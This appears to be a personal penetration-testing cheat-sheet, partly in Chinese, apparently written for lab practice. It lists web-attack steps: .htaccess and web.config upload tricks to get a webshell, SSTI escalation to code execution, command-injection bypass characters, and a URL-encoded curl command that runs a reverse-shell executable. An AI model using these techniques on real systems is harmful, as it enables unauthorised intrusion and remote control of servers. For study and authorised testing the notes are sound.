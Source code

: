 ### htacess upload
```bash
## upload htaccess file.
cat .htaccess 
AddType application/x-httpd-php .evil

## rename php to evil, upload
## get shell
http://192.168.120.107/uploads/webshell.evil
```

### webconfig upload

```bash
# web config, payloadsallthethings.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config

# upload config file, and check the file. 
http://xxx/web.config?cmd=dir

```

## SSTI
+ Server side template injection
+ ssti exploit to rce, pg-cookiecutter

```bash
# python {{config}} to verify

# python, locate subprocess class and exploit popen
```

## Command Injection
+ web function, curl options injection;
+ register, email address injection;
+ common bypass, | ; ` " % ! 
+ payloadsallthethings


## RCE
+ url参数（命令）做url编码，常见空格、斜线、反斜线、冒号
+ curl encode
+ cmd /c 执行exe 反弹shell，先dir 调试，确保命令格式无误
+ 直接 添加用户到 admin组

```bash
# encode 
# url参数（命令）做url编码，常见空格、斜线、反斜线、冒号
# cmd /c 执行exe 反弹shell，先dir 调试，确保命令格式无误
curl --data-urlencode: curl -G 'http://localhost/?' --data-urlencode 'cmd /c c:\\temp\\shell.exe'

```
